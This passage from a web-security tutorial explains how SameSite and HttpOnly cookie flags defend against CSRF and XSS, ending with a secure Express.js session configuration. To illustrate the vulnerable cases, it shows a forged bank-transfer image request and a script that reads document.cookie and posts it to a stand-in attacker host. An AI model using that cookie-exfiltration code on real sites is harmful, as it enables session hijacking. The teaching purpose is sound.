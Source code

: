 **With SameSite=Strict (Protected):**

```html
<!-- Same request from malicious site -->
<img src="https://bank.com/transfer?to=attacker&amount=1000" />
<!-- Cookie NOT included because it's a cross-site request -->
```

**HttpOnly Flag:**

The HttpOnly flag prevents client-side JavaScript from accessing cookies,
providing protection against XSS attacks.

**XSS Protection Examples:**

**Without HttpOnly (Vulnerable):**

```javascript
// Malicious script can steal cookies
const stolenCookies = document.cookie;
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: stolenCookies,
});
```

**With HttpOnly (Protected):**

```http
Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
```

```javascript
// JavaScript cannot access HttpOnly cookies
console.log(document.cookie); // Does not include HttpOnly cookies
```

**Combined Security Implementation:**

**Secure Session Cookie Configuration:**

```javascript
// Express.js session configuration
app.use(
  session({
    name: 'sid',
    secret: process.env.SESSION_SECRET,
    resave: false,
    saveUninitialized: false,
    cookie: {
      httpOnly: true, // Prevent XSS access
      secure: true, // HTTPS only
      sameSite: 'strict', // CSRF protection
      maxAge: 1800000, // 30 minutes
      domain: '.example.com', // Scope to domain
    },
  })
);
```
